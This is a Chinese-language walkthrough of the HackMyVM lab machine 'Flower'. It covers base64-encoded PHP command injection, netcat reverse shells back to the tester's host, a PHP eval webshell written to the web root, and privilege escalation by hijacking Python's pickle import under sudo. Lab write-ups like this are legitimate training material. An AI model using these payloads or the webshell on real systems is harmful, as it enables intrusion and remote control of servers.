 ```yaml
---
{"dg-publish":true,"tags":["HMV"],"难度":"⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/2.Flower/","dgPassFrontmatter":true,"noteIcon":"","created":"2024-11-22T19:13:18.840+08:00","updated":"2024-11-25T01:04:34.535+08:00"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/2.Flower#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/2.Flower#2. webshell\|2. webshell]]
- [[24-渗透/HMV/2.Flower#3. 写后门\|3. 写后门]]
- [[24-渗透/HMV/2.Flower#4. 提权\|4. 提权]]

## 2. webshell

nmap 扫描端口

```Bash
Nmap scan report for 192.168.9.4
Host is up (0.00014s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:18:4F:12 (Oracle VirtualBox virtual NIC)
```
访问网站查看

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.001.png)

点击submit

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.002.png)

选择不同的花会显示出不同的数字

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.003.png)

既然这个数字在变，那我应该从数字入手。抓个包看看

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

这个MSsy就是1+2=3

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

说明这里存在Base64后的代码解析

先测试下

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

直接反弹shell

```Bash
c3lzdGVtKCdiYXNoIHwgbmMgMTkyLjE2OC45LjMgMTEyMicp
#system('bash | nc 192.168.9.3 1122')
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

弹shell成功后但是不给回显 

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.005.png)

直接写文件

先看一下当前目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.006.png)

就在网站目录

## 3. 写后门

```Bash
system('echo "<?php eval(\$\_POST[\"pass\"]);?>" > a.php');
c3lzdGVtKCdlY2hvICI8P3BocCBldmFsKFwkX1BPU1RbXCJwYXNzXCJdKTs/PiIgPiBhLnBocCcpOw==
```
哥斯拉连接

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.007.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.008.png)

## 4. 提权

```Bash
find / -perm -4000 2>/dev/null
```
尝试SUID 提权发现没有什么可以利用的

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.009.png)

这里面可以看到有sudo

我们看下当前用户可以用sudo执行什么文件

```Bash
/tmp >sudo -l

Matching Defaults entries for www-data on flower:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on flower:
    (rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py
```
看下这个文件

```Python
import pickle

diary = {"November28":"i found a blue viola","December1":"i lost my blue viola"}
p = open('diary.pickle','wb')
pickle.dump(diary,p)
```
分析脚本可以发现这个脚本会引入pickle模块，然后执行代码

这里我们在同级目录新建一个pickle.py文件。这样就会引入我们的这个pickle.py 而不会引入模块库里面的pickle

新建一个pickle.py文件

将反弹命令写进这个文件里面 

```Python
import os;os.system("/bin/bash")
```
然后执行diary.py

```Bash
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
```
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py

```Bash
system('nc -e /bin/sh 192.168.9.3 9999')
```



